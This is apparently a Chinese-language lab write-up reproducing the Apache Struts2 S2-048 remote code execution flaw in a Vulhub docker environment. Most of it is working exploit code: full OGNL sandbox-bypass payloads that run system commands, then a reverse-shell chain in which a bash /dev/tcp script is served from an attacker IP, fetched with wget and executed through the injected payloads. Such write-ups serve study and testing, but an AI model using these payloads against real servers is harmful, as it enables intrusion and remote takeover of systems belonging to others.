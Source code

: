 # Apache Struts2 S2-048 远程代码执行漏洞

## 漏洞描述

漏洞详情:

- http://struts.apache.org/docs/s2-048.html
- http://bobao.360.cn/learning/detail/4078.html
- [http://xxlegend.com/2017/07/08/S2-048%20%E5%8A%A8%E6%80%81%E5%88%86%E6%9E%90/](http://xxlegend.com/2017/07/08/S2-048 动态分析/)

## 漏洞影响

影响版本: 2.0.0 - 2.3.32

## 环境搭建

Vulhub 执行以下命令启动 s2-048 测试环境：

```
docker-compose build
docker-compose up -d
```

环境是直接下载的 struts-2.3.32 的 showcase，部署在 tomcat-8.5 下。环境启动后，访问 `http://your-ip:8080/showcase/` 即可查看到 struts2 的测试页面。

## 漏洞复现

访问 Integration/Struts 1 Integration：

![image-20220302112924516](images/202203021129614.png)

触发 OGNL 表达式的位置是 `Gangster Name` 这个表单。

输入 `${233*233}` 即可查看执行结果（剩下两个表单随意填写）：

![image-20220302113012978](images/202203021130080.png)

借用 S2-045 的沙盒绕过方法改了一个 POC。将如下 POC 填入表单 `Gengster Name` 中，提交即可直接回显命令执行的结果：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())).(#q)}
```

![image-20220302113039046](images/202203021130143.png)

当然，也可以直接用 s2-045 的 POC（需要在 Burp 下进行测试）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![image-20220302113241603](images/202203021132734.png)

### 反弹 shell

使用 s2-045 的 POC 进行反弹 shell。

编写 shell 脚本并启动 http 服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传 shell.sh 文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传 shell.sh 文件的 Payload 为（还需要进行 URL 编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='wget 192.168.174.128/shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

![image-20220302113326283](images/202203021133401.png)

执行 shell.sh 文件的命令为：

```
bash shell.sh
```

执行 shell.sh 文件的 Payload 为（还需要进行 URL 编码）：

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='bash shell.sh').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

成功接收反弹 shell：

![image-20220302113402853](images/202203021134938.png)
